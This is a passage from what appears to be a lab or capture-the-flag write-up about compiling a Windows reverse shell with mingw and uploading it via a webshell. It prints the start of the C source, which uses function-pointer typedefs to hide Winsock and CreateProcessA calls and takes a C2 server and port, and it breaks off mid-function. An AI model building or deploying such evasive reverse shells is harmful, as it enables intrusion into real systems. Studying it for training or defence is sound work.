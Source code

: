 	- We only use WINAPI * when creating a pointer to the function starting address.

##### Compilation:

`$ i686-w64-mingw32-gcc -lwsock32 -lws2_32 challenge.c -o challenge.exe`

**OR**

`$ x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32 `

![](/assets/img/Pasted image 20230117225151.png)

**Uploading it on the webshell**:

![](/assets/img/Pasted image 20230117230136.png)


**Code that worked so far**:

```cpp
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>
#define DEFAULT_BUFLEN 1024

typedef int (WSAAPI* myNotWSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);

typedef SOCKET (WSAAPI* myNotWSASocketA)(int af,int type,  int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags);

typedef unsigned long (WSAAPI* myNotinet_addr)(const char *cp);

typedef u_short (WSAAPI* myNothtons)(u_short hostshort);

typedef int (WSAAPI* myNotWSAConnect)(SOCKET s,const struct sockaddr *name,int namelen,LPWSABUF lpCallerData,LPWSABUF lpCalleeData,LPQOS lpSQOS,LPQOS lpGQOS);

typedef int (WSAAPI* myNotclosesocket)(SOCKET s);

typedef int (WSAAPI* myNotWSACleanup)();

typedef BOOL (WSAAPI* myNotCreateProcessA)(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);

typedef DWORD (WSAAPI * myNotWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

typedef BOOL (WSAAPI * myNotCloseHandle)(
  HANDLE hObject
);

void shinzousasageyo(char* ddd, int eee) { // C2Server == ddd, C2Port == eee
        SOCKET aaa; //mySocket
        struct sockaddr_in bbb; //addr
```